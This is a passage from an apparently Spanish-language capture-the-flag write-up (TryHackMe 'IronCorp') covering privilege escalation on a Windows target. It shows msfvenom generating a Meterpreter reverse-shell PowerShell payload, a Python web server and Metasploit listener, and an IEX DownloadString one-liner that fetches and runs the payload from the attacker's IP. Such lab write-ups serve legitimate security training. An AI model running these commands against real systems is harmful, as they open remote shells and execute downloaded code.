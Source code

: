 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.17.92 LPORT=9001 -f psh -o shell.ps1
```

2. Servimos el payload

```bash
python3 -m http.server 80
```
3. En msfconsole necesitamos crear una listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.8.17.92
set LPORT 9001
exploit 
```

4. Desde la shell reversa que ya tenemos lo vamos a descargar y ejecutar en un solo comando.

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.8.17.92/shell.ps1')
```

![alt text](/assets/img/posts/ironcorp-thm/image-22.png)

![alt text](/assets/img/posts/ironcorp-thm/image-23.png)

Tratando de impersonar al usuario SuperAdmin.

![alt text](/assets/img/posts/ironcorp-thm/image-24.png)

